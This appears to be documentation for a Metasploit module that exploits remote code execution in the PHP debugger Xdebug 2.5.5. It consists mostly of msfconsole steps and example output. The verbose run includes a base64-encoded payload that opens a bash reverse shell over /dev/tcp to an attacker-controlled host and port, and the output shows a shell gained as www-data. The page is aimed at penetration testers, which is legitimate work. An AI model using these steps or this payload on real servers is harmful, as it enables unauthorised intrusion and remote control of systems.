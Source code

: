 Xdebug is a PHP debugging tool that supports remote debugging of PHP code on the server via source code.
This module exploits the RCE vulnerability and gives a command shell back.

- Source: https://ricterz.me/posts/Xdebug%3A%20A%20Tiny%20Attack%20Surface

- Documentation: https://xdebug.org/docs-dbgp.php

- Tested on: Xdebug version 2.5.5

List the steps needed to make sure this thing works

-  Start `msfconsole`
-  `use exploits/unix/http/xdebug_rce`
-  `check`
-  `set RHOST 10.10.10.10
-   `set LHOST 10.10.14.197`
-   `exploit`

**Example Outputs**

- Check

```msf > use exploits/unix/http/xdebug_rce
msf exploit(unix/http/xdebug_rce) > set RHOST 10.10.10.10
RHOST => 10.10.10.10
msf exploit(unix/http/xdebug_rce) > set LHOST tun0
LHOST => tun0
msf exploit(unix/http/xdebug_rce) > check

[+] 10.10.10.10:80 - Looks like remote server has xdebug enabled

[*] 10.10.10.10:80 The target service is running, but could not be validated.
msf exploit(unix/http/xdebug_rce) > ```



- Run


msf exploit(unix/http/xdebug_rce) > run

[*] Started reverse TCP handler on 10.10.14.197:4444 
[+] 10.10.10.10:80 - Looks like remote server has xdebug enabled

[*] 10.10.10.83:80 - Sending payload...... 
[*] 10.10.10.10:80 - Waiting for client response.....
[*] 10.10.10.10:80 - Received data.....
[*] Command shell session 1 opened (10.10.14.197:4444 -> 10.10.10.10:36628) at 2018-04-23 20:45:41 +0530

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

- Run verbose output

msf exploit(unix/http/xdebug_rce) > set verbose true
verbose => true
msf exploit(unix/http/xdebug_rce) > run

[*] Started reverse TCP handler on 10.10.14.197:4444 
Request send
Date: Mon, 23 Apr 2018 15:16:56 GMT
Server: Apache
Vary: Accept-Encoding
X-Content-Type-Options: nosniff
X-Frame-Options: sameorigin
X-XSS-Protection: 1; mode=block
Xdebug: 2.5.5
Content-Length: 314
Content-Type: text/html; charset=UTF-8


[+] 10.10.10.10:80 - Looks like remote server has xdebug enabled

[*] 10.10.10.10:80 - Sending payload...... 
Payload sent-eval -i 1 -- c3lzdGVtKCIgYmFzaCAtYyAnMDwmMTkyLTtleGVjIDE5Mjw+L2Rldi90Y3AvMTAuMTAuMTQuMTk3LzQ0NDQ7c2ggPCYxOTIgPiYxOTIgMj4mMTkyJyIp
[*] 10.10.10.10:80 - Waiting for client response.....
[*] 10.10.10.10:80 - Received data.....
490<?xml version="1.0" encoding="iso-8859-1"?>
<init xmlns="urn:debugger_protocol_v1" xmlns:xdebug="http://xdebug.org/dbgp/xdebug" fileuri="file:///var/www/html/index.php" language="PHP" xdebug:language_version="7.1.12" protocol_version="1.0" appid="1179" idekey="jtGjvfApYD"><engine version="2.5.5"><![CDATA[Xdebug]]></engine><author><![CDATA[Derick Rethans]]></author><url><![CDATA[http://xdebug.org]]></url><copyright><![CDATA[Copyright (c) 2002-2017 by Derick Rethans]]></copyright></init>
[*] Command shell session 2 opened (10.10.14.197:4444 -> 10.10.10.10:36676) at 2018-04-23 20:46:56 +0530

id

uid=33(www-data) gid=33(www-data) groups=33(www-data)```
